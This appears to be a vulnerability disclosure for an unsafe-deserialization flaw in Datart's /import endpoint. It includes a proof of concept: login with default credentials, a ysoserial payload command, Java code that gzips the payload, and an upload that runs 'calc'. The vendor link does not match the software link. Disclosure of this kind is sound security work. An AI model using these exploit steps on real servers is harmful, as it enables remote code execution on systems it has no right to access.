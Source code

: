 ## Title: deserialization Vulnerability in Datart  ≤ 1.0.0-rc.3

**BUG_Author:** gggggggga

**Affected Version:** Datart  ≤ 1.0.0-rc.3

**Vendor:** [Datart GitHub Repository](https://github.com/example/WebAppX)

**Software:** [Datart](https://github.com/running-elephant/datart/)

**Vulnerability Files:**

- `datart.server.service.impl.VizServiceImpl`

## Description:

1. **Deserialization Vulnerability via File Parameter:**

   - In the method `extractModel(MultipartFile file)` located in the service class, the file parameter is directly deserialized without proper validation or sanitization.
   - The method uses `ObjectInputStream` to deserialize the contents of the file, which can be controlled by an attacker. This allows an attacker to send a maliciously crafted file that, when deserialized, can execute arbitrary code on the server (leading to Remote Code Execution).
   - The vulnerability is exposed via the route `POST /import` in the `importViz` method, where the `file` parameter is passed to the `extractModel` method for processing.

2. **Exploiting the Deserialization Vulnerability:**

   - An attacker can exploit this vulnerability by uploading a specially crafted file (e.g., a serialized object) that, when deserialized, triggers the execution of malicious code.
   - The malicious file could potentially allow an attacker to execute arbitrary code, leading to Remote Code Execution (RCE) on the server.

3. **Exploit Steps:**

   **Step 1: Login**
   The attacker must first authenticate by logging in through the application’s login endpoint. For example:

   ```
   POST http://<target-ip>/login
   Username: demo
   Password: 123456
   ```

   **Step 2: Upload the Malicious File**
   Once logged in, the attacker can upload a malicious file to the `/import` endpoint, which is processed by the `importViz` method. The uploaded file is then passed to the `extractModel` method for deserialization:

   ```
   POST http://<target-ip>/import
   Content-Type: multipart/form-data
   File: [malicious file containing a serialized object]
   ```

4. **Example Malicious File:**

   The malicious file should contain a serialized object designed to exploit the deserialization vulnerability, triggering remote code execution when processed by the server.

5. **Verifying the Exploit:**

   If the deserialization is successful and the malicious file is processed, the attacker may gain control over the server and execute arbitrary code, leading to Remote Code Execution (RCE).

## Proof of Concept:

1. Access the login page of the vulnerable application:
   ```
   http://localhost:8080/login
   ```

2. Use the following credentials to attempt login:
   ```
   Username: demo
   Password: 123456
   ```

3. Use ysoserial to generate malicious serialized data:

   ```
   java -jar ysoserial.jar CommonsBeanutils1 "calc" > payload.ser
   ```

4. Use the following script to package `payload.ser` into a `payload.ser.gz` file,This Java code reads the `payload.ser` file from the specified path (`E:\\xxx\\payload.ser`), compresses it using GZIP, and writes the output to `payload.ser.gz`.:

   ```
   public class abc {
       public static void main(String[] args) throws IOException {
           try (FileInputStream fis = new 		   FileInputStream("C:\\xxx\\payload.ser");
                FileOutputStream fos = new FileOutputStream("payload.ser.gz");
                GZIPOutputStream gzipOut = new GZIPOutputStream(fos)) {
               byte[] buffer = new byte[1024];
               int len;
               while ((len = fis.read(buffer)) > 0) {
                   gzipOut.write(buffer, 0, len);
               }
           }
       }
   }
   
   ```

5. upload the evil file payload.ser.gz

![image-20241216231621478](./assets/image-20241216231621478-1734362191375-1.png)

Successfully executed the `calc` command, which opens the calculator.

![image-20241216231758863](./assets/image-20241216231758863.png)